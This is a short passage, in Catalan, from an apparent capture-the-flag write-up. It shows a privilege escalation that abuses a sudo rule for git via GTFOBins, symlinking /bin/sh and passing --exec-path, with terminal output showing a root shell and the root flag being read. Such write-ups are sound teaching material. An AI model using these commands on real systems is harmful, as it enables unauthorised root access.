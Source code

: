 A GTFOBins trobem aquest binari on ens mostra algunes formes de poder utilitzar-lo per elevar privilegis, algunes utilitzen el manual o ajuda amb `less` no funcionarà perquè no estan instal·lats els manuals de git.

L'opció (e) ens funciona correctament.

```bash
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF" x
```

L'executem i obtenim shell amb root.

```bash
lenam@guitjapeo:~/.local/bin/web$ TF=$(mktemp -d)
lenam@guitjapeo:~/.local/bin/web$ ln -s /bin/sh "$TF/git-x"
lenam@guitjapeo:~/.local/bin/web$ sudo git "--exec-path=$TF" x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
f6aXXXXXXXXXXXXXXXXXXXXXXbb
```